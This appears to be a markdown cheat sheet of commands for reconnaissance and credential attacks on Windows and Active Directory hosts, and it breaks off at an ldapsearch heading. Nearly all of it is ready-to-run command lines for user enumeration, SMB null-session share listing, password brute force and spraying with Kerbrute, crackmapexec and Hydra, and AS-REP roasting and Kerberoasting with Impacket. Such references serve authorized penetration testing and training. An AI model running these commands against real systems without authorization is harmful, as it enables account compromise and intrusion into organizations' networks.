 ## Commands and Techniques to do recon on windows hosts 

note1: some of these techniques generate lot of noise so use them sparingly.

note2: some of these techniques depends of the ports are open in the host.


## 1 - nmap

* ``` $ nmap -p 88 --script=krb5-enum-users --script-args krb5-enum-users.realm=’<domain>’,userdb=usernames <IP> ```

* ``` $ nmap -vv -p 389 --script ldap-brute --script-args ldap.base='"cn=users,dc=ad,dc=domain"' <IP> ```

* ``` $ nmap -vv -p 1433 --script ms-sql-brute --script-args userdb=usernames,passdb=wordlist.txt <IP> ```

## 2 - SMB

* enum shares with crackmapexec 
* ``` $ crackmapexec smb <IP> -u "guest" -p "" --shares ```

* valid user shares enum
* ``` $ crackmapexec smb <IP> -u "name" -p "pass" --shares ```

* enum shares with smbclient
* ``` $ smbclient -N -L //<IP>/ ```

* connect to shares
* ``` $ smbclient //<IP>/<SHARE> -U anonymous ``` 

* enum shares with smbmap 
* ``` $ smbmap -u null -p "" -H <IP> ```


## 3 - enum4linux

* ``` $ enum4linux -U -o <IP> (enum users and O.S) ```   

* ``` $ enum4linux -A <IP> (agressive mode) ```


## 4 - enum with rpcclient 

* empty user connection 
* ``` $ rpcclient <IP> -U "" -N ```

* valid user connection
* ``` $ rpcclient -U "name" <IP> ```


## 5 - metasploit

* ``` msf > use Auxiliary/gather/Kerberos_enumusers ```


## 6 - Kerbrute

* Enum user
* ``` $ ./kerbrute userenum --dc <IP>  -d ad.domain usernames.txt ```

* Passwors brute
* ``` $ ./kerbrute bruteuser -d ad.domain --dc <IP> wordlist.txt username ```  

* Password spray
* ``` $ ./kerbrute passwordspray -d ad.domain --dc <IP> usernames.txt Password123 ```


## 7 - Impacket scripts

#### If you have a list of valid users...
* [ASREProast](https://www.thehacker.recipes/ad/movement/kerberos/asreproast) 
* ``` $ impacket-GetNPUsers -dc-ip <IP> <ad.domain/> -no-pass -usersfile <userslist> -format john ```


#### If you have valid creds...
* [Kerberoast](https://www.thehacker.recipes/ad/movement/kerberos/kerberoast)
* ``` $ impacket-GetUserSPN  -dc-ip <IP> <ad.domain>/<user>:<pass> -request ```


## 8 crackmapexec

* Enumerate users by bruteforcing the RID
* ``` $ crackmapexec smb <IP> -u "anonymous" -p "" --rid-brute ```

* Password brute
* ``` $ crackmapexec ldap <IP> -u <username or userlist> -p wordlist.txt ```

* asreproast
* ``` $ crackmapexec ldap <IP> -u users.txt -p '' --asreproast output.txt ```


## 9 - Hydra

* Password brute
* ``` $ hydra -v -l username -P wordlist.txt <IP> ldap2 ```

## 10 - ldapsearch

...
